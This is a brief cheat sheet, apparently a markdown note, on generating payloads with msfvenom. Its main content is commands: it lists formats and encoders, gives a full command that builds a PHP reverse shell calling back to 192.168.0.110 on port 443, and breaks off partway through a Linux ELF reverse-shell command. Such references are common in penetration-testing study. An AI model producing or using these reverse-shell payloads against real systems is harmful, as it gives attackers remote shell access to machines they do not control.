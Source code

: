 # Msfvenom

## **MSF Venom Payloads**

```
msfvenom --list formats
msfvenom --list encoders
```

**PHP**

```
msfvenom -p php/reverse_php LHOST=192.168.0.110 LPORT=443 > tmp.php
```

**Linux Elf**

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=
```
